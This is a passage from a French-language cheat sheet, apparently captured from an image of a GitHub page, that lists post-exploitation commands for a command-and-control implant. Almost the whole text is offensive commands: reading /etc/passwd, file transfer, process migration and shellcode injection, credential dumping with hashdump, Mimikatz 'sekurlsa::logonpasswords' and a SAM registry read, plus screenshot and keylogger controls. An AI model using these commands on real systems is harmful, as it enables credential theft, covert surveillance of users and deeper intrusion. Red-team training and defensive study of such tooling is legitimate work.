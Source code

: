 ```bash
getuid
whoami
pwd
```

### Commandes système de base
```bash
# Navigation fichiers
ls
cd /path/to/directory
pwd
cat /etc/passwd

# Upload/download
upload /local/file /remote/path
download /remote/file /local/path

# Exécution commandes
shell whoami
execute ls -la
```

## 🕵️ Post-Exploitation Avancée

### Process injection
```bash
# Migration vers processus
migrate [PID]

# Process injection
inject --pid [PID] --shellcode-path /path/to/shellcode

# Spawn process injection
spawn notepad.exe
```

### Credential harvesting
```bash
# Dump credentials
hashdump

# Mimikatz integration
execute-assembly mimikatz.exe "sekurlsa::logonpasswords"

# Registry dump
registry read --hive HKLM --path "SAM"
```

### Surveillance et monitoring
```bash
# Screenshot
screenshot

# Keylogger
keylogger start
keylogger dump
keylogger stop

# Process monitoring
ps -T
```
